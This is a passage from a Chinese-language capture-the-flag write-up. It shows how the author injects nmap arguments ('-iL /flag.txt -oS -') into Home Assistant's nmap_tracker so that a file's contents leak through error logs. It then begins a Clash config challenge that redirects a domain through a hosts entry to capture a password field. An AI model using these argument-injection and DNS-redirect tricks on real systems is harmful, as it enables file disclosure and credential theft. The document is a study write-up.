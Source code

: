 在 Home Assistant
[文档](https://www.home-assistant.io/docs/configuration/troubleshooting/)
看到可以开 Debug Logging，大喜。下载下来一看，logging level 是开到 DEBUG
了，但还是没有 stderr，这算什么 Debug Logging？

```plaintext
2023-10-19 08:37:36.197 DEBUG (SyncWorker_0) [homeassistant.components.nmap_tracker] Scanning ['172.19.0.0/16'] with args: -iL /flag.txt --exclude 172.19.0.3 --reason -v
2023-10-19 08:37:41.265 DEBUG (SyncWorker_0) [homeassistant.components.nmap_tracker] Finished scanning ['172.19.0.0/16'] with args: -iL /flag.txt --exclude 172.19.0.3 --reason -v
```

这时已经读了很久 nmap manual，有点自暴自弃了，干脆试试 output format。`-oX`
会抛异常，`-oN` 和 `-oG` 都没特别的输出，`-oS` 可以抛出 PortScannerError 让 Home
Assistant 把 flag log 出来。

```plaintext
2023-10-19 10:03:18.474 DEBUG (SyncWorker_0) [homeassistant.components.nmap_tracker] Scanning ['172.19.0.0/31'] with args: -F -T4 --min-rate 10 --host-timeout 5s -Pn -iL /flag.txt -oS - --exclude 172.19.0.1 --reason -v
2023-10-19 10:03:23.542 ERROR (MainThread) [homeassistant.components.nmap_tracker] Nmap scanning failed: 'Failed to resolve "flag{sOOoo-mAny-LOoPhOLes-iN-hOme-AsSistant}".\nWARNING: No targets were specified, so 0 hosts scanned.\n'
```

## 非法所得

读了题面，这下不得不做了。

题目运行了一个 cfw，提供几个控制的接口，主要是从指定 URL 导入配置，一个只能看
cfw 界面的 VNC，还有一个访问指定 URL 并返回截图的服务。

主要的代码在 `app/prepare_flag.mjs` 和 `app/ui/index.mjs`。阅读可知 flag1 在
`/app/profiles/flag.yml`，flag2 不在文件系统，只有在访问的域名为 `ys.pku.edu.cn`
时会输入到 `#primogem_code[type=password]` 中，flag3 在 `/flag`，只能用
`/app/readflag` 读取。

这题的环境可以访问公网，感觉很容易被滥用。配置文件可以传到 第三新XSS 那题。

读文档发现了 [Script](https://dreamacro.github.io/clash/premium/script.html)
好像能执行 Python 代码。尝试用 tkinter 显示一个窗口并前置，没成功。

flag1 和 flag3 没什么头绪，先看 flag2。这题需要页面上有一个
`#primogem_code[type=password]` 元素，而且在截图时要能显示明文。找到一个
[示例配置](https://lancellc.gitbook.io/clash/clash-config-file/an-example-configuration-file)
里面有 hosts，可以将 `ys.pku.edu.cn` 解析到指定 IP。测试了 第三新XSS 的服务，`HOST`
头不对会返回 HTTP 404，只能找个公网的服务器了。HTTP 服务我用的是 Python 的
`http.server`。

```yaml
mode: rule

hosts:
  # Enter IP of the server
  'ys.pku.edu.cn': 8.8.8.8
```
